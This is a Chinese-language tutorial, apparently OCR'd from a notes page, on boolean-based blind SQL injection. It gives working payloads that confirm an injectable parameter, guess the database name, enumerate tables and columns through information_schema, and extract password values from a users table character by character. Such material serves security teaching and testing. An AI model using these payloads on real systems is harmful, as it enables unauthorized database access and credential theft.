 ### 基本思路

1. **注入点检测**

找到一个可以进行注入的参数位置，通常通过简单的测试 ```1=1```（始终为真）和 ```1=2```（始终为假）的情况观察响应的变化。例如：

```html
http://example.com/item?id=1 AND 1=1   --> 页面正常显示
http://example.com/item?id=1 AND 1=2   --> 页面异常或不同
```

如果响应页面存在显著差异，说明该参数存在布尔盲注的可能性。

------

2. **推测数据结构**      使用逐步的逻辑表达式查询数据库元信息：

- 推测当前使用的数据库：

  ```sql
  id=1 AND DATABASE() LIKE 'test%'
  ```

  判断当前数据库名是否以 `test` 开头。

- 获取数据库长度：

  ```sql
  id=1 AND LENGTH(DATABASE())=4
  ```

  判断当前数据库名是否为 4 个字符 ，可以写成循环来判断。

- 字符逐个推测： 假设数据库名长度为 4，逐字符尝试：

  ```sql
  id=1 AND SUBSTRING(DATABASE(), 1, 1)='t'  --> 第一个字符是否是 't'
  id=1 AND SUBSTRING(DATABASE(), 2, 1)='e'  --> 第二个字符是否是 'e'
  id=1 AND SUBSTRING(DATABASE(), 3, 1)='s'  --> 第三个字符是否是 's'
  id=1 AND SUBSTRING(DATABASE(), 4, 1)='t'  --> 第四个字符是否是 't'
  ```

------

3. **获取表名**   使用 ```information_schema.tables```  推测表名：

- 获取表的数量：

  ```sql
  id=1 AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=DATABASE())=5
  ```

  判断当前数据库中是否有 5 个表，可以写成循环来判断。

- 获取表名长度：

  ```sql
  id=1 AND LENGTH((SELECT table_name FROM information_schema.tables WHERE table_schema=DATABASE() LIMIT 0,1))=6
  ```

  判断第一个表的名称长度为 6，可以写成循环来判断。

- 推测表名字符：

  ```sql
  id=1 AND SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=DATABASE() LIMIT 0,1),1,1)='u'
  ```

------

4. **获取字段名**

使用 ```information_schema.columns``` 获取字段名：

- 获取字段数量：

  ```sql
  id=1 AND (SELECT COUNT(*) FROM information_schema.columns WHERE table_schema=DATABASE() AND table_name='users')=3
  ```

  判断表 `users` 中是否有 3 个字段，可以写成循环来判断。

- 获取字段名长度，可以写成循环来判断：

  ```sql
  id=1 AND LENGTH((SELECT column_name FROM information_schema.columns WHERE table_schema=DATABASE() AND table_name='users' LIMIT 0,1))=5
  ```

- 推测字段名字符，可以写成循环来判断：

  ```sql
  id=1 AND SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema=DATABASE() AND table_name='users' LIMIT 0,1),1,1)='i'
  ```

------

5. **获取字段值**

使用逐字符猜测字段值：

- 假设字段 ```password```在表```users```中：

  - 获取字段值长度：

    ```sql
    id=1 AND LENGTH((SELECT password FROM users LIMIT 0,1))=8
    ```

  - 获取字段值字符：

    ```sql
    id=1 AND SUBSTRING((SELECT password FROM users LIMIT 0,1),1,1)='p'
    ```